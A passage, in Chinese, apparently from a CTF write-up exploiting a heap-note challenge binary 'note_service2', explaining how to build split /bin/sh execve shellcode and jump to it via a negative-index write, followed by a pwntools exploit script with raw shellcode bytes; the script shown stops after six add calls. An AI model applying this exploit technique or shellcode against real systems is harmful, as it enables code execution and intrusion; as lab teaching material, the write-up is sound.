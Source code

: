 主要是/bin/sh的输入，若是以往，直接push或者赋值就可

```assembly
48 b8 2f 62 69 6e 2f    movabs rax,0x732f2f2f6e69622f
```

但是这样字节数过长，无法连贯我们的shellcode，所以我一半一半来，然后移位再或连接，就可以让rbx变成/bin/sh

![n7.png](https://i.loli.net/2019/08/06/1zZluNXHkpnMc3i.png)

调用exit就可以跳到heap执行shellcode再系统调用即可getshell

![n8.png](https://i.loli.net/2019/08/06/r5QR2WsBYj8cS4d.png)

![n9.png](https://i.loli.net/2019/08/06/fFZp9Msyl82aVzj.png)

完整EXP：

```python
from pwn import *
elf = "./note_service2"
p = process(elf)


def add(idx, s):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("index:")
    p.sendline(str(idx))
    p.recvuntil("size:")
    p.sendline("8")
    p.recvuntil("content:")
    p.sendline(s)


def delete(idx):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(idx))


'''
   0:   31 c9                   xor    ecx,ecx
   2:   f7 e1                   mul    ecx
   4:   51                      push   rcx
   5:   68 2f 2f 73 68          push   0x68732f2f
   a:   5b                      pop    rbx
   b:   48 c1 e3 20             shl    rbx,0x20
   f:   68 2f 62 69 6e          push   0x6e69622f
  14:   59                      pop    rcx
  15:   48 09 cb                or     rbx,rcx
  18:   53                      push   rbx
  19:   48 89 e7                mov    rdi,rsp
  1c:   6a 00                   push   0x0
  1e:   5e                      pop    rsi
  1f:   48 31 c9                xor    rcx,rcx
  22:   b0 3b                   mov    al,0x3b
  24:   0f 05                   syscall
'''
add(-7, '\x31\xc9\xf7\xe1\x51\xe9\x16')
add(1, '\x68\x2f\x2f\x73\x68\xe9\x16')
add(1, '\x5b\x48\xc1\xe3\x20\xe9\x16')
add(1, '\x68\x2f\x62\x69\x6e\xe9\x16')
add(1, '\x59\x48\x09\xcb\x53\xe9\x16')
add(1, '\x48\x89\xe7\x90\x90\xe9\x16')
```